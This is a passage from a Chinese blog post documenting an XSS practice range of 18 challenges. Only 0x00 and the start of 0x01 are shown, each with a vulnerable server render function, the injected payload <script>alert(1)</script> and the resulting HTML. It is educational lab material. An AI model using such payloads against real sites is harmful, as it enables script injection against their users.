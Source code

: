 ```yaml
---
layout: post
title: XSS 小游戏练习
categories: [XSS, Web安全, 渗透测试]
---
```


## 前言

今天在闲逛时发现一个针对 XSS 入门的小靶场，想想自己这一年来一直都在学习开发方面的知识，对安全的东西有些生疏了，正好可以当作复习了

靶场一共有 18 个题目，每道题分为 Server Code(服务端代码)、Input Code(可输入点)、Html(显示点)。分析 Server Code 在 Input Code 处输入构造的 Payload，最后结果会显示在 Html 处。都是 XSS 最基础的知识点，非常适合入门学习，因此记录一下

靶场地址：https://xss.haozi.me

**Tips：此靶场只适合了解 XSS，并不具备任何实战意义**

## 0x00

最基础的弹窗代码

Server Code

```js
function render(input) {
  return "<div>" + input + "</div>";
}
```

Input Code

```js
<script>alert(1)</script>
```

HTML

```html
<div>
  <script>
    alert(1);
  </script>
</div>
```

## 0x01

标签闭合

Server Code

```js
function render(input) {
  return "<textarea>" + input + "</textarea>";
}
```
